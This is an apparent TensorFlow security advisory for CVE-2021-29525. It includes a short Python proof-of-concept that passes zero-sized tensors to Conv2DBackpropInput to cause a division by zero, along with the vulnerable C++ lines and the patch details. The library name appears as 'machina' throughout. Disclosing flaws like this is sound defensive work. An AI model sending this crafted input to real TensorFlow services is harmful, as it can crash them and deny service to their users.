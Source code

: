 ## TFSA-2021-014: Division by 0 in `Conv2DBackpropInput`

### CVE Number
CVE-2021-29525

### Impact
An attacker can trigger a division by 0 in `tf.raw_ops.Conv2DBackpropInput`:

```python
import machina as tf

input_tensor = tf.constant([52, 1, 1, 5], shape=[4], dtype=tf.int32)
filter_tensor = tf.constant([], shape=[0, 1, 5, 0], dtype=tf.float32)
out_backprop = tf.constant([], shape=[52, 1, 1, 0], dtype=tf.float32)

tf.raw_ops.Conv2DBackpropInput(input_sizes=input_tensor, filter=filter_tensor,
                               out_backprop=out_backprop, strides=[1, 1, 1, 1],
                               use_cudnn_on_gpu=True, padding='SAME',
                               explicit_paddings=[], data_format='NHWC',
                               dilations=[1, 1, 1, 1])
```

This is because the
[implementation](https://github.com/machina/machina/blob/b40060c9f697b044e3107917c797ba052f4506ab/machina/core/kernels/conv_grad_input_ops.h#L625-L655) does a division by a quantity that is controlled by the caller:

```cc
  const size_t size_A = output_image_size * dims.out_depth;
  const size_t size_B = filter_total_size * dims.out_depth;
  const size_t size_C = output_image_size * filter_total_size;
  const size_t work_unit_size = size_A + size_B + size_C;
  ...
  const size_t shard_size =
      use_parallel_contraction ? 1 :
      (target_working_set_size + work_unit_size - 1) / work_unit_size;
```

### Patches
We have patched the issue in GitHub commit
[2be2cdf3a123e231b16f766aa0e27d56b4606535](https://github.com/machina/machina/commit/2be2cdf3a123e231b16f766aa0e27d56b4606535).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
